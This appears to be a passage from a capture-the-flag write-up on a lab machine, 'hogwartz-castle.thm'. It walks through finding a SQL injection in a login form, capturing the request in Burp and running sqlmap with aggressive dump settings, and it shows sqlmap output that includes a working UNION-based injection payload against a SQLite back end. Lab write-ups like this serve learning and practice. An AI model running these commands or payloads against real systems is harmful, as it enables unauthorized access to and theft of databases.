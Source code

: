 Found that there is virtual website ```hogwartz-castle.thm``` so add target ip to ```/etc/hosts/``` which is a login page and doest have default creds.
Lets try sql injections. Trying some basic injections we know its vulnerable to sql injections.
So first intercept requests using burp and save it.

<p align="center"><img src ="./Screenshots/2.png" width ="340"></p>

Lets try sqlmap to know the type of working payloads.
```bash
$ sqlmap -r requests --dump-all --level 5 --risk 3 --thread 8
...

    Type: UNION query
    Title: Generic UNION query (random number) - 4 columns
    Payload: user=FaLLen' UNION ALL SELECT 9118,9118,9118,'qzpvq'||'PzdcYSPAvejKwdhBVyywOAPjyFXLtruTASgivgUZ'||'qjbkq'-- mBTr&password=GuY
---
[04:18:58] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: SQLite
[04:18:58] [INFO] sqlmap will dump entries of all tables from all databases now
[04:18:58] [INFO] fetching tables for database: 'SQLite_masterdb'
[04:19:09] [WARNING] the SQL query provided does not return any output
[04:19:09] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[04:19:09] [INFO] fetching number of tables for database 'SQLite_masterdb'
[04:19:09] [INFO] resumed: 1
[04:19:09] [INFO] retrieving the length of query output
[04:19:09] [INFO] resumed: 5
[04:19:09] [INFO] resumed: users
[04:19:09] [INFO] fetching columns for table 'users' 
[04:19:10] [WARNING] unable to retrieve column names for table 'users' 
...
```
So sqlmap gave us there is a user table and 4 columns and user field is vulnerable to union injections.
lets craft some union based sql queries.
``` 
```